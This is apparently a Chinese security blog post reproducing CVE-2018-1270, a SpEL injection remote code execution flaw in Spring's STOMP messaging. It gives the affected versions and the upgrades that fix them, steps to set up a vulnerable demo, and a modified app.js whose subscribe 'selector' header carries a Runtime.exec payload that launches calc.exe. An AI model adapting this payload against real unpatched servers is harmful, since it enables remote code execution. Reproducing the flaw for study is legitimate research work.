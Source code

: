 ```yaml
---
title: CVE-2018-1270 - Spring messaging Spel 代码执行漏洞
date: 2018-04-09 18:13:23
tags:
		- Spring
categories:
		- 安全研究
---
```


CVE-2018-1270 - Spring messaging Spel 代码执行漏洞复现学习。

<!-- more -->


#### [CVE-2018-1270 - Spring messaging Spel 代码执行漏洞](https://pivotal.io/security/cve-2018-1270)

#### 影响版本

- Spring Framework 5.0 to 5.0.4
- Spring Framework 4.3 to 4.3.14
- Older unsupported versions are also affected

#### 缓解措施

- 5.0.x users should upgrade to 5.0.5
- 4.3.x users should upgrade to 4.3.15

#### 漏洞描述

__CVE-2018-1270漏洞__：Spring Framework的5.*版本、4.3.*版本以及不再支持的旧版本，通过spring-messaging和spring-websocket模块提供的基于WebSocket的STOMP，存在被攻击者建立WebSocket连接并发送恶意攻击代码的可能，从而实现远程代码执行攻击，建议尽快更新到新的版本。

#### 环境搭建

首先把项目clone到其他文件夹下。

	git clone git@github.com:spring-guides/gs-messaging-stomp-websocket.git

进入该项目的文件夹下面

回滚到存在漏洞版本

	git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3

`complete`目录启动

	\complete>mvnw spring-boot:run

访问

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-9/48722650.jpg)


#### 漏洞复现

参考[spring-messaging Remote Code Execution 分析-【CVE-2018-1270】](https://xz.aliyun.com/t/2252)

在服务器端修改用于理解和测试。

在`\complete\src\main\resources\static\app.js`中添加一个指定的`header`头部，其中指定了`selector`，值为`payload`。

	function connect() {
	    var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};  // 添加触发计算器
	    var socket = new SockJS('/gs-guide-websocket');
	    stompClient = Stomp.over(socket);
	    stompClient.connect({}, function (frame) {
	        setConnected(true);
	        console.log('Connected: ' + frame);
	        stompClient.subscribe('/topic/greetings', function (greeting) {
	            showGreeting(JSON.parse(greeting.body).content);
	        },header);  // header
	    });
	}

先点击`Connect`，然后在`Your name here`那里随便输入，点击`send`触发计算器。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-9/53480797.jpg)


在浏览器端修改`app.js`的代码，注入`payload`也可以。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-10/65775178.jpg)

#### 漏洞分析

暂时对`spring`不是很了解，其中的漏洞触发机制需要学习，待补充。

#### 资料集锦

[CVE-2018-1270 - Spring messaging Spel 代码执行漏洞](https://github.com/CaledoniaProject/CVE-2018-1270/)

[CVE-2018-1270: Remote Code Execution with spring-messaging](https://pivotal.io/security/cve-2018-1270)

[spring-messaging Remote Code Execution 分析-【CVE-2018-1270】](https://xz.aliyun.com/t/2252)

[CVE-2018-1270 Remote Code Execution 漏洞分析](http://www.polaris-lab.com/index.php/archives/501/)

[spring-messaging RCE(cve-2018-1270) 重现](http://www.lsablog.com/network_security/penetration/cve-2018-1270-repeat/)

[Spring Download](http://repo.springsource.org/libs-release-local/org/springframework/spring/)


[gs-messaging-stomp-websocket](https://github.com/spring-guides/gs-messaging-stomp-websocket)

[gs-messaging-stomp-websocket](https://github.com/spring-guides/gs-spring-boot)





